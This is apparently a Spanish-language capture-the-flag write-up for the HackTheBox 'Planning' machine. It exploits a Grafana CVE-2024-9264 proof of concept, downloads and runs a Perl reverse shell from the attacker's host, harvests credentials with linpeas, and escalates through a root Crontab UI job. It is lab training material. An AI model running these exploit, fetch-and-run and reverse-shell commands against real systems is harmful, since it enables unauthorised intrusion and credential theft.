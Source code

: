 # Planning

**Platform:** HackTheBox  
**Difficulty:** Easy  
**IP:** 10.10.11.68

---

## Información Inicial
- **Objetivo:** Obtener las dos banderas tanto del usuario como del administrador de Active Directory.  
- **Herramientas iniciales:** `nmap`, `gobuster`, `python3`, `wget`, `netcat`, `ssh`, `crontab`,`linpeas.sh`.

---

Primero realizamos un escaneo básico con `nmap` para identificar los puertos abiertos y servicios activos:
```bash 
nmap 10.10.11.68

nmap -sC -sV -p 22,80 -T4 10.10.11.68
```
![Escaneo con nmap para descubrimiento de puertos y servicios](screenshots/1.nmap.png)

Tras ingresar el nombre de host en el fichero /etc/hosts, ingresamos en el sitio web del puerto 80 y tratamos de buscar vulnerabilidades o errores.

![Vista general del sitio web](screenshots/2.web_site.png)

Tras realizar numerosos escaneos como de directorios, ficheros, versiones, etc, obtenemos un resultado curioso en la búsqueda de subdominios.
Tenemos un servicio Grafana ejecutándose en la máqunia víctima.

```bash
gobuster vhost -u http://planning.htb -w /usr/share/wordlist/SecLists/Discovery/DNS/combined_subdomains.txt -t 50 --append-domain
```

![Descubrimiento de dominios desde el host principal](screenshots/3.gobuster_vhost.png)

Añadiremos `grafana.planning.htb` al fichero /etc/hosts para acceder al servicio a través de la URL. 

Echando un vistazo simple al sitio web, apreciamos la versión de Grafana en la parte inferior (11.0.0).

![Vista general del servicio Grafana](screenshots/4.grafana_version.png)

Al investigar por internet nos percatamos de un CVE relacionado, con un exploit que nos podría dar acceso.

![Página principal de GitHub sobre la vulnerabilidad asociada a la versión de Grafana](screenshots/5.github_cve.png)

Entre otras cosas, comprobamos las versiones de programas que podemos utilizar para establecer una reverse shell (PHP, Pyhton, Ruby, PERL...) y nos devuelve que PERL sí que está instalado.

```bash
python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'perl --version' http://grafana.planning.htb
```

![Ejecución de fichero para la explotación de la vulnerabilidad para comprobación de versiones de servicios](screenshots/6.checking_version_services.png)

Una reverse-shell que suelo usar para PERL es la de pentestmonkey (https://pentestmonkey.net/tools/web-shells/perl-reverse-shell).

Abrimos un servidor Python donde tengamos el fichero en PERL para compartirlo y poder descargarlo desde la máquina víctima.

```bash
python -m http.server
```

![Compartiendo reverse-shell en perl para descargarla desde la víctima](screenshots/7.sending_reverse_shell.png)

Aprovechando la explotación del CVE que hemos realizado antes, descargaremos con Wget el fichero PERL en la máquina víctima y lo ejecutaremos una vez tengamos Netcat escuchando en la terminal.

```bash
nc -lvnp 4444

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'wget http://10.10.14.109:8000/perl-reverse-shell.pl' http://grafana.planning.htb

python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -c 'perl perl-reverse-shell.pl' http://grafana.planning.htb
```

![Descargando y ejecutando la reverse shell desde la víctima ](screenshots/8.executing_reverse_shell.png)

En la terminal recibimos una shell como usuario root, pero al investigar los directorios personales y usuarios no encontramos nada relevante.

![Obteniendo una shell desde netcat tras la explotación de la vulnerabilidad](screenshots/9_accesing_with_netcat.png)

Intentamos indagar un poco más con la herramienta `linpeas.sh`, de manera que con un servidor Python lo compartiremos y lo descargaremos y ejecutaremos en la víctima.

En la máquina local:
```bash
python -m http.server
```

El la máquina víctima:
```bash
wget http://10.10.14.109:8000/linpeas.sh

chmod a+x linpeas.sh

./linpeas.sh
```

![Ejecución de linpeas.sh bsucando vulnerabilidades para escalada de privilegios](screenshots/10.linpeas_result.png)

La herramienta linpeas.sh nos indica que en las variables de entorno hay unas credenciales. Puesto que no obtenemos nada más relevante, trataremos de entrar por SSH a la IP de la máquina víctima, suponiendo que estamos dentro de un contenedor.

Con el usuario `enzo` si que encontramos la primera bandera en el directorio personal del usuario.
```bash
ssh enzo@10.10.11.68
```

![Utilización de credenciales encontradas para primera bandera](screenshots/11.ssh_user.txt.png)

Vamos a buscar otros ficheros ocultos con la misma herramienta (linpeas.sh) de manera que la subiremos a esta máquina.

En la máquina local:
```bash
python -m http.server
```

El la máquina víctima:
```bash
wget http://10.10.14.109:8000/linpeas.sh

chmod a+x linpeas.sh

./linpeas.sh
```

![Ejecución de linpeas desde la nueva sesión para buscar ficheros comprometedores](screenshots/12.ssh_linpeas.png)

El resultado del escaneo es un fichero en /opt/crontabs/crontab.db que contiene una base de datos de un servicio crontab, incluyendo unas credenciales. 

![Fichero encontrado con credenciales e indicaciones de un nuevo servicio](screenshots/13.crontab.png)

Tras un rato de investigación, la clave podría estar en un servicio Crontab UI en un puerto de la máquina. Comprobamos los puertos abiertos y, según la documentación oficial, Crontab UI por defecto se ejecuta en el puerto 8000.

```bash
netstat -tuln
```

![Comprobación de puertos para averiguación del servicio](screenshots/14.netstat.png)

Para comprobarlo vamos a abrir un túnel SSH para que el puerto 8000 de la máquina víctima se refleje en el puerto 8000 de la máquina local.

```bash
ssh -L 8000:127.0.0.1:8000 enzo@planning.htb
```

![Creación de túnel SSH](screenshots/15.ssh_tun.png)

Al entrar, vemos un panel de control de Cronjob UI desde el que podemos crear una nueva tarea. Ya que estas se ejecutarán como root, podemos hacer que copie el contenido del fichero que contiene la bandera de administrador en otro fichero en /tmp con permisos de lectura para todos, y así podremos verla sin necesidad de entrar a la sesión de root.

```bash
cat /root/root.txt > /tmp/flag.txt
```

![Creación de tarea crontab para que muestre el fichero de la segunda bandera en un fichero accesible desde mi usuario](screenshots/16.showing_flag.png)

Símplemente nos queda ejecutar la tarea manualmente y buscar el fichero flag.txt en el que encontraremos la bandera.

![Crontab UI con la instrucción ingresada para ejecutarla](screenshots/17.crontab_ui.png)
![Obtención de la segunda bandera después de la ejecución de la tarea crontab](screenshots/18.flag.txt.png)
